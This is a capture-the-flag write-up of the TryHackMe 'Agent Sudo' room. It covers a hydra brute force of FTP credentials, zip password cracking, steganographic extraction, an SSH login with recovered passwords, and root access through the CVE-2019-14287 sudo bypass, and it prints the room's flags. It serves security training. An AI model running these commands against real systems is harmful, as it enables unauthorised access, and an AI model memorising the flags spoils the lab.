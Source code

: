 # Tryhackme.com Room : Agent Sudo
`https://tryhackme.com/room/agentsudoctf`


# Instance
```
export IP=10.10.249.128
```

# Nmap
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
```

When visiting the webpage we get
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

We can spoof the user agent to get access to the page.
Using user agent `C` we get access to the secret page:
```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

Agent name is `chris`

We use hydra to bruteforce ftp password :
```
hydra -l chris -P /usr/share/john/password.lst $IP ftp
```

We find
```
chris:crystal
```

We find `To_agentj.txt` on the ftp server
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

We get 2 images.

running `strings cutie.png` we find some interesting strings.

We use `binwalk -e cutie.png` to extract the content of the file
We get this
```
-rw-r--r-- 1 root root 279312 Jun 19 16:59 365
-rw-r--r-- 1 root root  33973 Jun 19 16:59 365.zlib
-rw-r--r-- 1 root root    280 Jun 19 16:59 8702.zip
-rw-r--r-- 1 root root      0 Oct 29  2019 To_agentR.txt
```

We use `john` to crack the zip password
```
zip2john 8702.zip > hashes
john hashes
```

We find the password `alien`

We must use `7z` to extract the archive

We get To_agentR.txt
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

This is base64 encoded string
```
cat QXJlYTUx | base64 -d
Area51
```

Which is the steg password for `cute-alien.jpg`
We get a `message.txt`
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We get 
```
james:hackerrules!
```

We can login in ssh 
`sshpass -p hackerrules! ssh -o StrictHostKeyChecking=no ssh james@$IP`


We get the user flag
```
b03d975e8c92a7c04146cfa7a5a313c7
```

We get an image that we reverse search to answer the question
```
Roswell alien autopsy
```

We then run linpeas on the machine.

We see that we are in sudoers.
`sudo -l` Give us
```
(ALL, !root) /bin/bash
```

Which is related to a cve-2019-14287

We get root using
`sudo -u#-1 /bin/bash`

We get the flag
```
b53a02f55b57d4439e3341834d70c062
```


